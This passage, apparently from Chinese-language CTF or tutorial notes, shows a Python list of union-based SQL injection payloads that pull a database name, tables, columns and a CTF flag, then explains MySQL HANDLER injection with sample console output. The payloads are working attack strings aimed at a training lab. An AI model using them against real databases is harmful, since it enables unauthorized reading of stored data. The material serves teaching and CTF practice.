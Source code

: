 ```python
usernamePayloads = [
    "1' union select database() #",
    "1' union select group_concat(table_name) from information_schema.tables where table_schema=database() #",
    "1' union select group_concat(column_name) from information_schema.columns where table_name='flag' #",
    "1' union select group_concat(flag) from ctftraining.flag #"
] # 爆数据库名、爆表名、爆列名、爆数据
for username in usernamePayloads:
    print(getResult(username,"123456"))
```

## §3.8 `handler`注入

`HANDLER`是SQL中的一个关键词，但是它并不属于标准的SQL语法。根据[官方文档](https://dev.mysql.com/doc/refman/5.6/en/handler.html)，`HANDLER`子句提供在存储引擎层面（InnoDB、MyISAM）直访表中内容的接口。

> [MySQL 5.6 Reference Manual](https://dev.mysql.com/doc/refman/5.6/en/) / [...](https://dev.mysql.com/doc/refman/5.6/en/handler.html) / HANDLER Statement
>
> 13.2.4 HANDLER Statement
>
> ```
> HANDLER tbl_name OPEN [ [AS] alias]
> 
> HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
>     [ WHERE where_condition ] [LIMIT ... ]
> HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
>     [ WHERE where_condition ] [LIMIT ... ]
> HANDLER tbl_name READ { FIRST | NEXT }
>     [ WHERE where_condition ] [LIMIT ... ]
> 
> HANDLER tbl_name CLOSE
> ```

```mysql
mysql> HANDLER 表名 OPEN as a;
Query OK, 0 rows affected (0.00 sec)

mysql> HANDLER a READ NEXT;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | 123      |
+----+----------+----------+

mysql> HANDLER a READ NEXT;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  2 | Angelina | 123      |
+----+----------+----------+

mysql> HANDLER a READ NEXT;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  3 | Dummy    | 123      |
+----+----------+----------+

mysql> HANDLER a CLOSE;
Query OK, 0 rows affected (0.00 sec)
```
